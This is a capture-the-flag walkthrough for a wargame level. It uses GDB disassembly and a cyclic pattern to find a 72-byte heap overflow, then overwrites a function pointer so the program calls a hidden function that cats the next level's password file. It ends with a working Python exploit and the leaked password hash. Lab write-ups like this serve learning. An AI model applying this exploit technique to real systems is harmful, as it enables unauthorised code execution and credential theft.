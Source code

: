 # Level 6

First step - testing the program
```
$ ./level6
Segmentation fault (core dumped)
$ ./level6 Hello
Nope
```
The program segfault without parameters, print "Nope" with

Waiting a password in parameter?
```
Start in GDB

gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x0804847c <+0>:		push   ebp
   0x0804847d <+1>:		mov    ebp,esp
   0x0804847f <+3>:		and    esp,0xfffffff0
   0x08048482 <+6>:		sub    esp,0x20
   0x08048485 <+9>:		mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:	mov    edx,0x8048468
   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:	mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:	add    eax,0x4
   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:	mov    edx,eax
   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:	call   eax
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.
```
There is a function pointer at line "+41", the address of this function is "0x8048468"
```
(gdb-peda)$ info function
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy@plt
0x08048350  malloc@plt
0x08048360  puts@plt
0x08048370  system@plt
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
```
It's the address of the function `m`, there is also a non-called function `n`
```
(gdb-peda)$ disas m
Dump of assembler code for function m:
   0x08048468 <+0>:		push   ebp
   0x08048469 <+1>:		mov    ebp,esp
   0x0804846b <+3>:		sub    esp,0x18
   0x0804846e <+6>:		mov    DWORD PTR [esp],0x80485d1
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave
   0x0804847b <+19>:	ret
End of assembler dump.
```
Just a call to `puts`

Let's see the non-called `n` function
```
(gdb-peda)$ disas n
Dump of assembler code for function n:
   0x08048454 <+0>:		push   ebp
   0x08048455 <+1>:		mov    ebp,esp
   0x08048457 <+3>:		sub    esp,0x18
   0x0804845a <+6>:		mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
End of assembler dump.
```
There is a call to the `system` function with a string on parameter
```
(gdb-peda)$ x/s 0x80485b0
0x80485b0:	"/bin/cat /home/user/level7/.pass"
```

---

We can understand the goal, need to execute the `n` function


So we can use a bufferoverflow for overwrite malloc's chunck, and replace the address in function pointer.

```
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

r "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"

Stopped reason: SIGSEGV
0x65414149 in ?? ()

gdb-peda$ pattern offset 0x65414149
1698775369 found at offset: 72

gdb-peda$ x n
0x8048454 <n>
```
Ok ! We have all stuff for write our exploit

```
#!/usr/bin/python

import struct

PAD = "A"*72;

FT_N = struct.pack("I", 0x8048454)

print PAD+FT_N
```

```
./exploit > payload

./level6 `cat payload`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
